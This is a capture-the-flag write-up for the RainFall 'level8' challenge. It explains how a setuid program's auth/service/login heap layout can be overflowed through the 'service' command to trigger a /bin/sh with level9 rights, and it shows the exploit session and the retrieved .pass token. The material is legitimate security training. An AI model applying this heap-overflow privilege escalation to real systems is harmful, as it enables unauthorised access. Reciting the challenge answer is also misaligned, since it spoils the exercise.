 # Level8

## Solution

* There is one file in our home, ```level8```, belonging to ```level9``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* For the sake of clarity, we won't display the very long disassembled code, but we will describe its behaviour:

	* there are two uninintialized static char pointers: auth and service
	* in a infinite loop, the following happens:
		* the program outputs the value of the two pointers
		* it uses ```fgets``` function and breaks the loop if ```fgets``` returns ```NULL```
		* it successively checks if the first characters of the user input are:
			* ```auth ``` ; if yes, it allocates a ```4``` bytes zone on the heap and ```auth``` points on it. It copies the remaining input characters in this zone if they are less or equal to ```0xe```
			* ```reset``` ; if yes, it frees the zone pointed by ```auth```
			* ```service```; if yes, ```service``` points on the return value of a ```strdup``` made on the reamining input characters
			* ```login```; if yes, two possibilities:
				* if ```auth[0x20]``` is not ```0x0```, launches ```system("/bin/sh")```
				* if it is equal to ```0x0```, outputs ```Password:\n```

* What we did with all of that:

	* as we would not be able to write ```0x21``` chars at the address pointed by ```auth``` (the limit is ```0xe```), we used the ```service``` part of the program
	* indeed the second allocation is done ```0x10``` bytes after the first ```4``` bytes allocation : we can write ```0x11``` chars (in fact ```0x10``` chars and a ```\n```), and ```auth[0x20]``` won't equal ```0x0```
	* a ```shell``` is launched with ```level9``` permissions so that we can ```cat``` ```.pass``` file
	* Here are the steps:
	```sh
	level8@RainFall:~$ ./level8
	(nil), (nil)
	auth
	0x804a008, (nil)
	service0123456789012345
	0x804a008, 0x804a018
	login
	$ cd ../level9
	$ cat .pass
	c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
	```